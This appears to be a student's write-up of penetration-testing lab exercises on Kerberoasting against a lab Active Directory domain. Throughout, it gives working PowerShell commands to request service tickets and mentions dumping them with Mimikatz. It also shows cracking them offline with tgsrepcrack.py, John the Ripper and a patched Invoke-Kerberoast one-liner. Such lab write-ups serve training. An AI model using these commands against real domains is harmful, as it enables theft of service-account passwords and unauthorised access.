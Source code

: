 ### 21.3.4.1 Exercises
#### 1. Repeat the manual effort of requesting the service ticket, exporting it, and cracking it by using the tgsrepcrack.py Python script.

1. Used the SPN we got from the Powershell Enumeration Script in 21.2.5.2.
   `{HTTP/CorpWebServer.corp.com}`

2. Loaded the KerberosRequestorSecurityToken class in Powershell

   ```powershell
   Add-Type -AssemblyName System.IdentityModel
   ```
   
3. Requested a service ticket using the `System.IdentityModel.Tokens.KerberosRequestorSecurityToken` constructor to load the ticket into local memory.

   ```powershell
   New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
   ```

   ![image-20200728205857256](.21.3.4.1.assets/image-20200728205857256.png)

4. Used klist to show the cached tickets

   ```powershell
   klist
   ```

   ![image-20200728205942223](.21.3.4.1.assets/image-20200728205942223.png)

5. Use Mimikatz to dump the ticket to disk:
   ![image-20200728210039655](.21.3.4.1.assets/image-20200728210039655.png)

6. Transferred the file to Kali Linux then ran tgsrepcrack.py and gave it a wordlist and the service ticket to start cracking it.

   ```bash
   python3 /usr/share/kerberoast/tgsrepcrack.py wordlist.txt /ftphome/1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
   ```

   ![image-20200728210150023](.21.3.4.1.assets/image-20200728210150023.png)


#### 2. Perform the same action with any other SPNs in the domain.

1. Used the SPN we got from the Powershell Enumeration Script in 21.2.5.2 and discovered the SPN `{sql_service@corp.com}`
   
2. Loaded the KerberosRequestorSecurityToken class in Powershell

   ```powershell
   Add-Type -AssemblyName System.IdentityModel
   ```

3. Requested a service ticket using the `System.IdentityModel.Tokens.KerberosRequestorSecurityToken` constructor to load the ticket into local memory.

   ```powershell
   New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'sql_service@corp.com'
   ```

   ![image-20200728210855719](.21.3.4.1.assets/image-20200728210855719.png)

4. Used klist to show the cached tickets

   ```powershell
   klist
   ```

   ![image-20200728210916841](.21.3.4.1.assets/image-20200728210916841.png)

5. Use Mimikatz to dump the ticket to disk:
   ![image-20200728211108795](.21.3.4.1.assets/image-20200728211108795.png)

6. Transferred the file to Kali Linux then ran `tgsrepcrack.py` and gave it a wordlist and the service ticket to crack it.

   ```bash
   python3 /usr/share/kerberoast/tgsrepcrack.py /home/coyote/oscplab/activedirectory/wordlist.txt /ftphome/1-40a10000-offsec@sql_service-CORP.COM.kirbi
   ```
   
   ![image-20200730154234938](.21.3.4.1.assets/image-20200730154234938.png)


#### 3. Crack the same service ticket using John the Ripper.

1. The Kirbi2John.py script from both Kerberoast and JTR didn't work for me (one didn't output anything, the other created a file that JTR wouldn't recognize), so I download the newest one and used the Kirbi2John.py from it - https://github.com/nidem/kerberoast

2. Convert the kirbi file to JTR format

   ![image-20200728222603270](.21.3.4.1.assets/image-20200728222603270.png)

3. Crack the password with JTR

   ```bash
   john --format=krb5tgs ./sql_jtr_hash --wordlist=/home/coyote/oscplab/activedirectory/wordlist.txt
   ```

   ![image-20200728222827616](.21.3.4.1.assets/image-20200728222827616.png)

#### 4. Use the Invoke-Kerberoast.ps1 script to repeat these exercises.

1. Dot-sourced it `. .\Invoke-Kerberoast.ps1`

2. There is an issue with how this script outputs the hash, so I had to research to find that out and use a custom filter with it.  
   `Invoke-Kerberoast -OutputFormat john | Select-Object -ExpandProperty hash |% {$_.replace(':',':$krb5tgs$23$')}`

   ![image-20200729105803127](.21.3.4.1.assets/image-20200729105803127.png)

3. Even with that custom filter, there is another issue if the SPN contains a colon, so I had to fix that by removing the extra `$krb5tgs$23$` that it had inserted into the hash before the port 1433.

4. I plugged that modified hash into JTR and retrieved the password:
   ![image-20200729110012067](.21.3.4.1.assets/image-20200729110012067.png)

5. I never looked back at doing things the traditional way, this is way easier.